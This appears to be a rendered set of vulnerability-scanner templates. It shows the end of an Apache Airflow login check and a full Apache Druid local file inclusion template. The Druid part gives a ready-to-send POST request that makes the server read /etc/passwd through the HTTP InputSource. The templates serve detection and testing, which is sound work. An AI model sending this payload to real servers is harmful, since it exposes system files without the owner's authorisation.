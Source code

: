 ### Matchers

**Type - dsl**

- dsl
  1. contains(body_1, "Sign In - Airflow")
  2. status_code_2 == 302
  3. contains(all_headers_2, "session=.")
- condition - and

**Type - word**

- words
  1. You should be redirected automatically to target URL: \<a href="/">

### Extractors

**Type - regex**

- name - csrf
- group - 1
- internal - True
- regex
  1. type="hidden" value="(.\*?)">

---

# Apache Druid - Local File Inclusion

## Description

- Apache Druid ingestion system is vulnerable to local file inclusion. The InputSource is used for reading data from a certain data source. However, the HTTP InputSource allows authenticated users to read data from other sources than intended, such as the local file system, with the privileges of the Druid server process. This is not an elevation of privilege when users access Druid directly, since Druid also provides the Local InputSource, which allows the same level of access. But it is problematic when users interact with Druid indirectly through an application that allows users to specify the HTTP InputSource, but not the Local InputSource. In this case, users could bypass the application-level restriction by passing a file URL to the HTTP InputSource. This issue was previously mentioned as being fixed in 0.21.0 as per CVE-2021-26920 but was not fixed in 0.21.0 or 0.21.1.
- severity - medium
- tags - cve,cve2021,apache,lfi,auth-bypass,druid

## Requests

### Step - 1

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"http","uris":[" file:///etc/passwd "]}},"dataSchema":{"dataSource":"sample","parser":{"type":"string", "parseSpec":{"format":"regex","pattern":"(.*)","columns":["a"],"dimensionsSpec":{},"timestampSpec":{"column":"no_ such_ column","missingValue":"2010-01-01T00:00:00Z"}}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}

```
